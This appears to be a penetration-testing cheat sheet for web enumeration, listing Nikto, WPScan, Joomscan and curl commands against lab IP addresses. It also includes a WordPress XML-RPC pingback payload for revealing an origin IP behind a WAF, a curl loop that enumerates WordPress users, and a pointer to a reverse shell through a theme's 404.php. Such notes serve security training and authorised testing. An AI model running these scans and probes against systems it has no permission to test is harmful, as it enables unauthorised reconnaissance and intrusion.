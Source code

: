 ```
# Nikto
nikto -h http://10.11.1.111

# Nikto with squid proxy
nikto -h 10.11.1.111 -useproxy http://10.11.1.111:4444

# CMS Explorer
cms-explorer -url http://10.11.1.111 -type [Drupal, WordPress, Joomla, Mambo]

# Wordpress Techniques
Ref: Maria, Fail, Shenzi, Nukem
https://www.hackingarticles.in/wordpress-reverse-shell/ 

http://192.168.137.167/wp-content/themes/twentynineteen/404.php # Url to execute reverse shell

Note: Use 'grep -R backup_scripts 2>/dev/null' to look for cron related directories. 

# WPScan (vp = Vulnerable Plugins, vt = Vulnerable Themes, u = Users)
wpscan --url http://10.11.1.111
wpscan --url http://10.11.1.111 --enumerate vp
wpscan --url http://192.168.221.167/ -e u,ap --plugins-detection aggressive
wpscan --url http://10.11.1.111 --enumerate vt
wpscan --url http://10.11.1.111 --enumerate u
wpscan -e --url https://url.com



Check IP behing WAF:
https://IP.com/2020/01/22/discover-cloudflare-wordpress-ip/
pingback.xml:
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
 <param>
  <value>
   <string>http://10.0.0.1/hello/world</string>
  </value>
 </param>
 <param>
  <value>
   <string>https://IP.com/2020/01/22/hello-world/</string>
  </value>
 </param>
</params>
</methodCall>

curl -X POST -d @pingback.xml https://ip.com/xmlrpc.php

Enum User:
for i in {1..50}; do curl -s -L -i https://ip.com/wordpress\?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}'; done

# Joomscan
joomscan -u  http://10.11.1.111
joomscan -u  http://10.11.1.111 --enumerate-components

# Get header
curl -i 10.11.1.111

# Get options
curl -i -X OPTIONS 10.11.1.111

```